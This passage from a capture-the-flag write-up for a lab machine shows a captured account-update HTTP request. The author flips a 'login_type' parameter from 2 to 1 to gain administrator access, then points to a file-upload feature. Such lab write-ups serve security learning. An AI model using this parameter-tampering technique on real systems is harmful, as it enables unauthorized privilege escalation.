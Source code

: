 This is the request generated:

{% code overflow="wrap" %}
```http
POST /classes/Master.php?f=update_account HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/?p=edit_account
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a



id=25&login_type=2&firstname=test&lastname=test&contact=test&gender=Male&address=test123&username=test123&password=
```
{% endcode %}

There's a `login_type` parameter set at 2, so let's change that to 1 and we might become an administrator. I tested this by visiting `/admin` and it worked:

<figure><img src="../../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

When looking around, we can see there's a Quartely Sales Report part hwhere we can upload files:

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>
